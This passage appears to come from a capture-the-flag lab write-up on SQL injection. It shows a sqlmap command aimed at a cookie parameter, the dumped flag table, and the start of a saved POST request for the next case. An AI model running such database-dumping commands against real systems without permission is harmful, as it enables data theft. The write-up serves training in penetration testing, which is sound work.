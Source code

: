 We can see the id parameter is being sent through the cookie, so, we must send the sqlmap command in the following way:

```
python3 sqlmap.py -r reqcase3.txt --batch --dump --threads 10 -p cookie
```

We'll get the following output:

```
Database: testdb
Table: flag3
[1 entry]
+----+------------------------------------------+
| id | content                                  |
+----+------------------------------------------+
| 1  | HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475} |
+----+------------------------------------------+
```

Got the flag: `HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475}`

## Case 4
---

Let's finish the task with case 4:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250204152421.png)

Let's save the request:

```
POST /case4.php HTTP/1.1

Host: 94.237.61.252:35591

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/json

Content-Length: 8

Origin: http://94.237.61.252:35591

Connection: keep-alive

Referer: http://94.237.61.252:35591/case4.php



{"id":1}
```
